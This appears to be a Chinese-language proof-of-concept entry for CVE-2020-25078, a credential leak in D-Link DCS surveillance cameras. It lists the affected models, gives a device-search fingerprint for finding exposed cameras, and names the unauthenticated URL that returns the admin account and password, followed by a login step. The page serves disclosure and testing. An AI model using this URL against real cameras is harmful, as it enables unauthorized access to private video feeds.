

# D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

<a-checkbox checked>DCS-2530L</a-checkbox></br>
<a-checkbox checked>DCS-2670L</a-checkbox></br>
<a-checkbox checked>DCS-4603</a-checkbox></br>
<a-checkbox checked>DCS-4622</a-checkbox></br>
<a-checkbox checked>DCS-4701E</a-checkbox></br>
<a-checkbox checked>DCS-4703E</a-checkbox></br>
<a-checkbox checked>DCS-4705E</a-checkbox></br>
<a-checkbox checked>DCS-4802E</a-checkbox></br>
<a-checkbox checked>DCS-P703</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DCS-2530L"</a-checkbox></br>

## 漏洞复现


访问登录页面如下


出现漏洞的 Url 为, 其中泄露了账号密码


```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```


使用泄露的账号密码登陆系统


